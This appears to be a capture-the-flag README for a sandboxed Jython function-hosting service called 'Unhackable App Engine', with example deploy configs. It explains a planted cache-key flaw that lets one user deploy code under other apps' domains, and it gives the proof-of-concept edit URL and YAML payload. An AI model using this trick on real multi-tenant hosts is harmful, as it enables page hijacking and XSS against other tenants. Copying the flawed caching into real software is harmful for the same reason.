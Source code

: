 # uae (Unhackable App Engine)

Like Amazon Lambda. Deploy your website without worrying about VM/containers.

To use this infra, you only need to submit short pieces of code for python functions, see the following example.

The environment is sandboxed.

## Jython

Because of CPython's GIL lock, users can easily DOS the system by having a syscall that takes forever to run.
We use Jython here to have true multithreading.

## How-To

Example deploy:
```
---
urls:
  "/": |-
    uae_rsp = uaeutils.make_response("Hello World")
  "/ping": |-
    uae_rsp = uaeutils.make_response("Pong")
  "/add": |-
    num_a = int(request['args'].get("a"))
    num_b = int(request['args'].get("b"))
    uae_rsp = uaeutils.make_response("Answer is " + str(num_a + num_b))
  "/error": |-
    uae_rsp = uaeutils.errorpage("Oops our server has fallen asleep")
  "/redirect": |-
    uae_rsp = uaeutils.redirect("https://www.adamyi.com/")
  "/json": |-
    uae_rsp = uaeutils.make_response(uaeutils.json_encode({"json": "is_easy"}))
default_handler: |-
  uae_rsp = uaeutils.errorpage("The requested URL %s was not found on this server." % request['path'], code=404)
```

## Vulnerability

Could deploy functions to any domains due to wrong caching rules.

**Normal User**
Domain: example
Path: helloworld

Cache Key: example.unhackable.app/helloworld

**Hacker**
Domain: example.unhackable.app/haha
Path: lmao

Cache Key: example.unhackable.app/haha.unhackable.app/lmao

**This would make XSS possible on all GAE apps**

## Payload

Visit https://manage.unhackable.app/edit?app=example.unhackable.app/haha

```
---
urls:
  "/test": |-
    uae_rsp = uaeutils.make_response("hacked")
default_handler: |-
  uae_rsp = uaeutils.errorpage("The requested URL %s was not found on this server." % request['path'], code=404)
```

https://test1.unhackable.app/haha.unhackable.app:8056/test becomes hacked

## author
adamyi
